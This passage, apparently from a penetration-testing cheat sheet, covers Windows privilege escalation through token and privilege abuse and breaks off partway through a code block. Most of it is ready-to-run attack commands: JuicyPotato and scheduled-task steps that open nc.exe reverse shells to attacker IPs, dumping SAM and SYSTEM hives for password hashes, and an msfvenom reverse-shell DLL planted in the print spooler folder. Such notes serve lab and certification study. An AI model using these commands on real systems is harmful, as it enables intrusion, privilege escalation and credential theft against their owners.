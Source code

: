 ```powershell

.\Juicy.Potato.x86.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c C:\wamp\www\nc.exe 192.168.45.238 80 -e cmd.exe" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

### SeBackupPrivilege
- If we have the `SeBackupPrivilege` we can dump the SAM and SYSTEM hives and use `impacket-secretsdump` to get the hashes
```powershell
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```
```zsh
impacket-secretsdump -sam sam.hive -system system.hive local
```

### SeManageVolumePrivilege
- We can escalate our privileges by using `SeManageVolumeExploit.exe` and following the steps as shown on [CsEnox Github](https://github.com/CsEnox/SeManageVolumeExploit)
```powershell
#Transfer the exploit to our target
iwr -uri http://192.168.45.162/SeManageVolumeExploit.exe -outfile SeManageVolumeExploit.exe

#Run it to get write access
.\SeManageVolumeExploit.exe

#Create a malicious Printconfig.dll and transfer it to our target
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.162 LPORT=443 -f dll -o Printconfig.dll

#Copy it to C:\Windows\System32\spool\drivers\x64\3\
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\

#Trigger it and catch the reverseshell
rlwrap nc -lvnp 443
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```
- Another trigger we could employ is via Windows Error Reporting `WerTrigger.exe` in combination with `phoneinfo.dll` as shown on [Github](https://github.com/sailay1996/WerTrigger/tree/master)
## Recovering Privileges
- If we get a shell as `nt authority\local service` and are missing privileges (i.e `SeImpersonatePrivilege`) as listed by [Microsoft](https://learn.microsoft.com/en-us/windows/win32/services/localservice-account) we can use [FullPowers](https://github.com/itm4n/FullPowers) as described in [Give Me Back My Privileges](https://itm4n.github.io/localservice-privileges/?ref=benheater.com)
- If the tool does not work, we can recreate the steps manually. 
```powershell
# Create an action for the task
New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe 192.168.45.180 80 -e powershell.exe`""

# Create the task 
Register-ScheduledTask -Action $TaskAction -TaskName "GrantPerm"

# Start the task 
Start-ScheduledTask -TaskName "GrantPerm"

# Create a list of privileges 
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseQuotaPrivilege", "SeShutdownPrivilege", "SeUndockPrivilege", "SeIncreaseWorkingSetPrivilege", "SeTimeZonePrivilege"

# Create a Principal for the task 
```